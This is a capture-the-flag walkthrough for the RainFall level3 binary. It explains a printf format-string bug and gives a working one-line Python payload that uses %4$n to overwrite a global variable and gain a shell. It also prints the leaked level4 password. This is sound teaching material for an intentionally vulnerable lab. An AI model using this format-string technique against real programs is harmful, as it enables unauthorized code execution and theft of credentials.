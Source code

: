 # level 3

There is an exec level3, we bring to local data.
when dissasemble with ghidra we find function main() calls fn v().
v() checks if the variable m is equal to 64 bytes and then runs /bin/sh. again buffer overflow. 

Printf has some exploits in its formated string. so try to inject the address of m.

In C printf(), %n is a special format specifier which instead of printing something causes printf() to load the variable pointed by the corresponding argument with a value equal to the number of characters that have been printed by printf() before the occurrence of %n.

Locate the heap address. 

    level3@RainFall:~$ ./level3 
    aaaabbbbcccc %p %p %p %p %p %p %p
    aaaabbbbcccc 0x200 0xb7fd1ac0 0xb7ff37d0 0x61616161 0x62626262 0x63636363 0x20702520

 we know 61616161 is aaaa so argv[1] is the 4th element on the memory.

 %4$n -> takes the 4th argument, given as \x8c\x98\x04\x08 (address of m)

    $ (python -c 'print ("\x8c\x98\x04\x08" + "A" * 60 + "%4$n")'; cat) | ./level3
    �AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
    Wait what?!
    cat /home/user/level4/.pass
    b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
